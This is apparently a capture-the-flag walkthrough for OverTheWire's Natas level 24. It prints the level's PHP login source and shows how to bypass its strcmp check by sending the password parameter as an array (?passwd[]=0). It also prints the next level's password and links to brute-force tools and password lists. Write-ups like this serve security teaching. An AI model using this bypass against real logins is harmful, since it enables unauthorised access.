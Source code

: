 `Link`:`https://overthewire.org/wargames/natas/natas24.html`

## [𝐖𝐚𝐥𝐤𝐭𝐡𝐫𝐨𝐮𝐠𝐡] ~ 𝐍𝐚𝐭𝐚𝐬 𝐋𝐞𝐯𝐞𝐥 𝟐𝟑 - 𝐋𝐞𝐯𝐞𝐥 𝟐𝟒
## 𝐆𝐢𝐯𝐞𝐧
- Username: natas24
- URL:      `http://natas24.natas.labs.overthewire.org`
## 𝐒𝐨𝐥𝐮𝐭𝐢𝐨𝐧
- Visit: `http://natas24.natas.labs.overthewire.org`
- `view source`

```
<h1>natas24</h1>
<div id="content">

Password:
<form name="input" method="get">
    <input type="text" name="passwd" size=20>
    <input type="submit" value="Login">
</form>

<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>  
```
- Notice: `if(!strcmp($_REQUEST["passwd"],"<censored>")){` 
- Note that: `strcmp` Compare two strings 
- I thought password bruteforce is the only way, but it didn't work
- But then found out that, strcmp have problem with comparing non-string with string

![image](https://user-images.githubusercontent.com/68887544/150126330-624b3fda-3688-4474-b8bd-dae43d144e9d.png)

- Visit: `http://natas24.natas.labs.overthewire.org/?passwd[]=0`
- and boom! solved

![image](https://user-images.githubusercontent.com/68887544/150126532-9a5ed321-3ca3-4780-a33c-90e54bd5d4e1.png)

- `Username: natas25 Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c`



## 𝐋𝐞𝐚𝐫𝐧𝐢𝐧𝐠

- Hydra : https://www.youtube.com/watch?v=-gE4leMl5Gg
- HTTP basic authentication URL with “@” in password : https://www.tutorialspoint.com/http-basic-authentication-url-with-in-password
- wfuzz
- john the ripper
- 10k most common passwords: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10k-most-common.txt
- PHP strcmp bypass: https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016
- strcmp
- PHP `$_REQUEST` : https://www.w3schools.com/php/php_superglobals_request.asp
